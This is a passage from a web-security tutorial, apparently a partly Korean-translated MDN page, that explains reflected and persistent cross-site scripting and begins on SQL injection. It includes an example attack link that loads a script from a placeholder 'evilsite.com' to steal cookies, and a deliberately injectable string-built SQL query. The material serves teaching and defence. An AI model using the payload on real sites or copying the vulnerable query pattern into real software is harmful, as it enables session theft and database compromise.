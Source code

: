 XSS는 공격자가 클라이언트 측 스크립트를 웹 사이트에 삽입하여 다른 사용자의 부라우저에서 수행되게 하는 공격의 유형을 말한다. 삽입된 코드는 웹 사이트에서 피해 사용자의 브라우저로 전송이 됨으로 피해 사용자에게 의심받지 않는다. 따라서, 그 삽입된 코드는 피해 사용자의 사이트 권한 쿠키를 공격자에게 보내는 종류의 악성 작업을 수행할 수 있다. 그리고 그것을 전달 받은 공격자는 마치 피해 사용자인 것처럼 위장하여 사이트에 로그인하고 피해 사용자가 할 수 있는 모든 작업을 수행할 수 있다. 가령, 신용 카드 세부 정보에 접근하거나, 연락처 세부 정보를 확인하거나, 암호를 변경하는 작업 등을 수행할 수 있다.

> **참고:** XSS 취약점은 전통적으로 다른 유형보다 일반적이었다.

삽입된 스크립트를 브라우저에 반환하도록 사이트를 속이는 데에는 두 가지 주요 접근방법이 있다. 그것은 반사적 XSS 취약점과 지속적 XSS 취약점이다.

- A _reflected_ XSS vulnerability occurs when user content that is passed to the server is returned _immediately_ and _unmodified_ for display in the browser — any scripts in the original user content will be run when the new page is loaded!
  For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results. An attacker can construct a search link containing a malicious script as a parameter (e.g. `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) and email it to another user. If the target user clicks this "interesting link", the script will be executed when the search results are displayed. As discussed above, this gives the attacker all the information they need to enter the site as the target user — potentially making purchases as the user or sharing their contact information.
- A _persistent_ XSS vulnerability is one where the malicious script is _stored_ by the website and then later redisplayed unmodified for other users to unwittingly execute.
  For example, a discussion board that accepts comments containing unmodified HTML could store a malicious script from an attacker. When the comments are displayed the script is executed and can then send the attacker information required to access the user's account. This sort of attack is extremely popular and powerful, because the attacker doesn't have to have any direct engagement with the victims.

  While `POST` or `GET` data is the most common source of XSS vulnerabilities, any data from the browser is potentially vulnerable (including cookie data rendered by the browser, or user files that are uploaded and displayed).

The best defence against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run code. For HTML this includes tags like `<script>`, `<object>`, `<embed>`, and `<link>`.

The process of modifying user data so that it can't be used to run scripts or otherwise affect the execution of server code is known as input sanitization. Many web frameworks automatically sanitize user input from HTML forms by default.

### SQL injection

SQL injection vulnerabilities enable malicious users to execute arbitrary SQL code on a database, allowing data to be accessed, modified or deleted irrespective of the user's permissions. A successful injection attack might spoof identities, create new identities with administration rights, access all data on the server, or destroy/modify the data to make it unusable.

This vulnerability is present if user input that is passed to an underlying SQL statement can change the meaning of the statement. For example, consider the code below, which is intended to list all users with a particular name (`userName`) that has been supplied from an HTML form:

```sql
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```

If the user enters a real name, this will work as intended. However a malicious user could completely change the behaviour of this SQL statement to the new statement below, simply by specifying the "**bold**" text below for the `userName`. The modified statement creates a valid SQL statement that deletes the `users` table and selects all data from the `userinfo` table (revealing the information of every user). This works because the first part of the injected text (`a';`) completes the original statement (' is the symbol to deliniate a string literal in SQL).
